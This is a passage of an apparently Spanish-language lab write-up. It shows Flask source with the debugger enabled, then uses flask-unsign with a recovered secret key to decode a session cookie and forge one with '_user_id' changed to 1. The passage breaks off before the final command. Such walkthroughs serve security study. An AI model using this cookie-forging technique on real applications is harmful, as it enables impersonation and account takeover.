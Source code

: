 ~~~python
    setup_db()
    configure_template_options()


def enable_debug():
    from werkzeug.debug import DebuggedApplication
    app.wsgi_app = DebuggedApplication(app.wsgi_app, True)
    app.debug = True


def main():
    enable_debug()
    configure()
    app.run(debug=True)


def dev():
    configure()
    app.run(port=5555)


if __name__ == '__main__':
    main()
else:
    configure()

~~~

Usamos el secret_key para extraer la información de la cookie del usuario

Credenciales encontradas

~~~bash
flask-unsign --secret MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD --decode --cookie .eJydjkuKwzAQRK8iem0G_WypfYrZDyF0t1qxwUkGy1mF3H005AZZFUXVo-oJ57pRW7TB_PMEc3SBq7ZGF4UBvjelpma7X8x6M8fdkEgPzbGszfz2zhecXsOH3Gno47u2BeZjf2h3a4EZaiFU5SD_jKslSrGK3hHLJJqyWsKCNVvr0UuwzksWdrFSZirokTWM0eOEaUSuCbViwshh5ESuiAuT5OS8MhaHwQnnKddqU7QaGW2_f3403d9vEF5_-9daSA.ZAYqgQ.Zvh6p_nlvHTv1LtEwEhcdp-rjUo
~~~

~~~python
{'_flashes': [('message', 'Please log in to access this page.'), ('message', 'Please log in to access this page.')], '_fresh': True, '_id': 'fda9eeb3cacce1fd4cd0e921abc6ce78e0a9d9f800292c3012c8cb14fa8bad929be3542969759bf79ef9794b35b7a1dc136c8712eb9d1931cb868ff0740e4b90', '_user_id': '9'}
~~~

Creamos nuestra propia session

~~~python
{'_flashes': [('message', 'Please log in to access this page.'), ('message', 'Please log in to access this page.')], '_fresh': True, '_id': 'fda9eeb3cacce1fd4cd0e921abc6ce78e0a9d9f800292c3012c8cb14fa8bad929be3542969759bf79ef9794b35b7a1dc136c8712eb9d1931cb868ff0740e4b90', '_user_id': '1'}
~~~

El comando a usar es:
